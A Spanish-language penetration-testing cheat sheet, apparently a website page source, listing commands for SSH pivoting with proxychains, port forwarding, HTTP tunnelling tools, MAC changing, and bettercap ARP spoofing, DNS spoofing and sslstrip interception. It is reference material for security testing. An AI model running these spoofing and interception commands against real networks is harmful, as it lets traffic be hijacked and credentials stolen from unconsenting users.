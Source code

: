 ```yaml
---
layout: article
title: Pentesting - Network
aside:
  toc: true
sidebar:
  nav: side
header:
  theme: dark
  background: black
---
```


<h2>Pivoting</h2>

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">Proxychains</div>
</div>

* Crear túnel SSH Dinámico
~~~
ssh -D <puerto local> <user>@<ip>
~~~
Configurar proxychains
Modificar el puerto '9050' (por defecto) en la última línea por otro que deseemos, por ejemplo, '9090'
~~~
vim /etc/proxychains.conf
~~~
~~~
[ProxyList]
socks4 127.0.0.1 <puerto local>
~~~

* Modificar el timeout para ganar velocidad
~~~
tcp_read_time_out 600
tcp_connect_time_out 800
~~~

* Si se quiere hacer un doble pivotaje
~~~
ssh -D <puerto local 1> <user>@<ip>
proxychains ssh -D <puerto local 2> <user>@<ip>
~~~
Configurara proxychains para el <puerto local 2>
~~~
vim /etc/proxychains.conf
~~~
~~~
[ProxyList]
socks4 127.0.0.1 <puerto local 2>
~~~

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">Port Forwarding</div>
</div>

~~~
ssh -R <puerto local>:localhost:<puerto local> <user>@<ip>
~~~
~~~
ssh -L <puerto local>:localhost:<puerto local> <user>@<ip>
~~~

**SSH Pivoting**
~~~
$ ssh <user>@<ip> -L <puerto local>:<host víctima>:<puerto víctima> -N
~~~

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">Túneles HTTP</div>
</div>

**ReGeorg**

[https://github.com/sensepost/reGeorg.git](https://github.com/sensepost/reGeorg.git)

**SSF**

[https://github.com/securesocketfunneling/ssf.git](https://github.com/securesocketfunneling/ssf.git)

<h2>DNS Spoofing</h2>

~~~bash
echo 1 > /proc/sys/net/ipv4/ip_forward # Router mode
~~~

Ver los equipos de la red, seleccionar el host para realizar el ARP Spoofing y ejecutarlo
~~~
> net.show
> set arp.spoof.targets 192.168.1.100
> arp.spoof on
~~~

Establecer el dominio, tanto local como externo (con dns.spoof.all)
~~~
> set dns.spoof.domains apache.org
> set dns.spoof.all true
> dns.spoof on
~~~

Crear un servidor local con http.server (u otros métodos)
~~~
> set http.server.path /var/www/html
> http.server on
~~~

<h2>MAC</h2>

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">Cambiar MAC</div>
</div>

~~~bash
sudo macchanger -a wlo1
~~~

~~~bash
sudo airmon-ng start wlo1
airodump-ng –c <canal>–bssid <MAC del router objetivo>–i wlo1mon
sudo airmon-ng stop wlo1mon
sudo ifconfig wlo1 down
sudo macchanger -m <Nueva MAC> wlo1
sudo ifconfig wlo1 up
~~~

<h2>ARP Spoofing</h2>

**Bettercap**

~~~bash
echo 1 > /proc/sys/net/ipv4/ip_forward # Router mode
~~~

~~~
> net.show
> set arp.spoof.targets 192.168.1.100
> arp.spoof on
~~~

<h2>Proxy MiTM</h2>

**Bettercap**

~~~
> set net.sniff.verbose false
> net.sniff on
> set http.proxy.sslstrip true
> http.proxy on
~~~



<h2>Recursos adicionales</h2>

[https://www.hackplayers.com/2018/05/taller-de-pivoting-tuneles-ssh.html](https://www.hackplayers.com/2018/05/taller-de-pivoting-tuneles-ssh.html)

[https://orangecyberdefense.com/fr/insights/blog/ethical_hacking/etat-de-lart-du-pivoting-reseau-en-2019/](https://orangecyberdefense.com/fr/insights/blog/ethical_hacking/etat-de-lart-du-pivoting-reseau-en-2019/)
